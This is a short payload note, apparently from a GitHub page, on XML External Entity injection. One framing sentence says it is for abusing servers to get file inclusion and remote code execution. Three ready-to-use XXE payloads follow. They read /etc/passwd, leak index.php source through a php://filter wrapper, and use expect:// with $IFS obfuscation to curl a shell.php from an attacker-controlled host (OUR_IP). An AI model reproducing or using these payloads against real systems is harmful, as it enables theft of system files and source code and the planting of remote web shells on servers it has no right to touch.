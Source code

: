 When a client is forced to supply XML to the web application, and the XML is incorrectly used on the server side, we can abuse it to perform file inclusion and remote code execution attacks. 

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>

<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>

<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
